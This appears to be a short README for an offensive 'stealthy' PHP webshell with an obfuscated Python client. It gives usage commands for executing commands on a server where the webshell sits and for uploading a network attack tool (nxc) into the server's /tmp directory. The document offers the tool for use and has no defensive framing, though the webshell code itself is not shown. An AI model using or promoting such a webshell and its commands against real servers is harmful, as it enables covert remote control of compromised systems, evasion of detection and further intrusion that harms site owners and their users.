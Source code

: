 # Stealthy Webshell

## Server Side
Written in PHP, has some basic upload functionality.

## Client Side
Python

## Usage

### Command Execution
```
/bin/python /home/piotr/tools/stealthy-php-webshell/client_obf.py [URL] [name of the webshell file on server]
```

#### Example:
```
/bin/python client_obf.py https://yourwebsite.local whatever.php
```

It is made for a specific purpose - you may want to change the source code. 

### File Upload
```
/bin/python /home/piotr/tools/stealthy-php-webshell/client_obf.py https://yourwebsite.local whatever.php --upload /usr/bin/nxc --remote-path /tmp/nxc 
```
